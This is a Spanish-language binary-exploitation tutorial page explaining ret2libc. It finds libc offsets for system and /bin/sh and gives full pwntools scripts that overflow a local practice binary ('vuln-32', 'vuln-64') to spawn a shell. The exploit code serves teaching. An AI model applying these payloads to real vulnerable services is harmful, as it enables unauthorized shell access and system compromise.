 ```yaml
---
description: exploit básico de Return-Oriented Programming
---
```


# ATAQUE RET2LIBC

{% content-ref url="../../teoria/return-oriented-programming/" %}
[return-oriented-programming](../../teoria/return-oriented-programming/)
{% endcontent-ref %}

Un ataque de ret2libc está basado en la función system que podemos encontrar dentro de la librería libc. Ésta función ejecuta todo lo que se le pasa como argumento, convirtiéndose en un objetivo perfecto.&#x20;

Otra cosa que se encuentra en el interior de libc es la cadena /bin/sh. Si se le pasa ésta cadena a system como parámetro, obtenemos una shell.

## EXPLOTACIÓN MANUAL

### Encontrar dirección base de libc

Afortunadamente Linux posee un comando llamado **`ldd`** para binarios lincados dinámicamente. Si lo ejecutamos en nuestro archivo ELF, nos dirá qué librerías utiliza y sus direcciones base.

```nasm
$ ldd vuln-32 
	linux-gate.so.1 (0xf7fd2000)
	libc.so.6 => /lib32/libc.so.6 (0xf7dc2000)
	/lib/ld-linux.so.2 (0xf7fd3000)
```

Necesitamos `libc.so.6` por lo que la dirección base será `0xf7dc2000`.

### Encontrar el offset de system

Para llamar a system, necesitamos su localización en memoria. Para ello podemos utilizar el comando readelf:

```bash
$ readelf -s /lib32/libc.so.6 | grep system

1534: 00044f00    55 FUNC    WEAK   DEFAULT   14 system@@GLIBC_2.0
```

La flag `-s` le dice a readelf que busque símbolos, por ejemplo, funciones. Aquí podemos ver que el **offset** de **system en libc** es `0x44f00`.

### Encontrar el offset de /bin/sh

Puesto que /bin/sh es una string, podemos utilizar el comando strings en la libreria dinámica que encontramos antes en ldd.&#x20;

{% hint style="info" %}
Tenga en cuenta que si se pasan cadenas de caracteres como parámetros, se deben pasar como punteros a la cadena y no los bytes en si.
{% endhint %}

```nasm
$ strings -a -t x /lib32/libc.so.6 | grep /bin/sh
18c32b /bin/sh
```

`-a` le dice al comando que examine todo el archivo y `-t x` que presente el offset en formato hexadecimal.

El offset de /bin/sh en libc es `0x18c32b`

### Exploit en 32-bit

```python
from pwn import *

p = process('./vuln-32')

libc_base = 0xf7dc2000
system = libc_base + 0x44f00
binsh = libc_base + 0x18c32b

payload = b'A' * 76         # The padding
payload += p32(system)      # Location of system
payload += p32(0x0)         # return pointer - not important once we get the shell
payload += p32(binsh)       # pointer to command: /bin/sh

p.clean()
p.sendline(payload)
p.interactive()
```

### Exploit en 64-bit

Es necesario repetir el proceso con la libreria lincada al binario x64 que se llamará algo parecido a `/lib/x86_64-linux-gnu/libc.so.6.`

{% hint style="info" %}
Tenga en cuenta que al ser 64 bit, es necesario pasar el parámetro utilizando un gadget del tipo `pop rdi; ret`.
{% endhint %}

```bash
$ ROPgadget --binary vuln-64 | grep rdi

[...]
0x00000000004011cb : pop rdi ; ret
```

```python
from pwn import *

p = process('./vuln-64')

libc_base = 0x7ffff7de5000
system = libc_base + 0x48e20
binsh = libc_base + 0x18a143

POP_RDI = 0x4011cb

payload = b'A' * 72         # The padding
payload += p64(POP_RDI)     # gadget -> pop rdi; ret
payload += p64(binsh)       # pointer to command: /bin/sh
payload += p64(system)      # Location of system
payload += p64(0x0)         # return pointer - not important once we get the shell

p.clean()
p.sendline(payload)
p.interactive()
```

## AUTOMATIZANDO CON PWNTOOLS

```python
# 32-bit
from pwn import *

elf = context.binary = ELF('./vuln-32')
p = process()

libc = elf.libc                        # Simply grab the libc it's running with
libc.address = 0xf7dc2000              # Set base address

system = libc.sym['system']            # Grab location of system
binsh = next(libc.search(b'/bin/sh'))  # grab string location

payload = b'A' * 76         # The padding
payload += p32(system)      # Location of system
payload += p32(0x0)         # return pointer - not important once we get the shell
payload += p32(binsh)       # pointer to command: /bin/sh

p.clean()
p.sendline(payload)
p.interactive()
```

{% hint style="success" %}
El de 64 bits es practicamente igual
{% endhint %}

{% hint style="info" %}
Se puede simplificar aún más utilizando las capacidades de ROP de PWNTools
{% endhint %}
